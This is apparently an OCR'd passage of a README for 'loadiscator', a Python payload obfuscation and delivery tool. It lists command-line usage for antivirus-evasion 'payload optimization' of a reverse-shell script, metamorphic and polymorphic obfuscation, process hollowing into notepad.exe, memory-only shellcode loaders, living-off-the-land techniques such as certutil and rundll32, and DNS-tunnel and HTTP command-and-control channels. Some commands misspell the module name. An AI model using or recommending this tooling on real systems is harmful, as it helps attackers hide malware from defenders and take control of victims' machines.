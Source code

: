 ### 4. One-Liner Encoding
```
python -m loadiscator.cli oneliner --file [INPUT] --lang [LANG]
```

### 5. AI-Powered Payload Optimization
```
python -m loadiscator.cli ai-optimize --file [INPUT] --target [AV] -o [OUTPUT]
```
- Example: `python -m loadiscator.cli ai-optimize --file reverse.py --target generic -o ai_optimized.py`

### 6. Metamorphic Obfuscation
```
python -m loadiscator.cli metamorphic --file [INPUT] --iterations [N] -o [OUTPUT]
```

### 7. Process Hollowing
```
python -m loadifscator.cli hollow --process [PROCESS] -o [OUTPUT]
```
- Example: `python -m loadiscator.cli hollow --process notepad.exe -o hollow_payload.py`

### 8. Memory-Only Shellcode Loader
```
python -m loadifscator.cli memory-only --shellcode [SHELLCODE.BIN] -o [OUTPUT]
```
- Example: `python -m loadiscator.cli memory-only --shellcode calc_launcher.bin -o calc_loader.py`

### 9. Living-Off-The-Land Payloads
```
python -m loadiscator.cli living-off-land --technique [TECHNIQUE] --payload [PAYLOAD] -o [OUTPUT]
```
- Techniques: powershell, wmi, registry, schtasks, com, certutil, rundll32

### 10. C2 Integrations
- DNS Tunnel: `python -m loadiscator.cli dns-tunnel --domain [DOMAIN] --server [C2IP] -o [OUTPUT]`
- HTTP Blend: `python -m loadiscator.cli http-blend --url [C2URL] -o [OUTPUT]`

---

## Advanced Modules

### Obfuscators
- **Base64:** Encodes payloads in base64
- **XOR:** XORs payloads with a user-supplied key
- **String Mangling:** Splits and mangles string literals
- **Polymorphic:** Randomizes code structure, variable names, and adds junk code
- **Metamorphic:** Deep code transformation, unique build per run

### Encryptors
- **AES-256-CBC:** Strong symmetric encryption for payloads
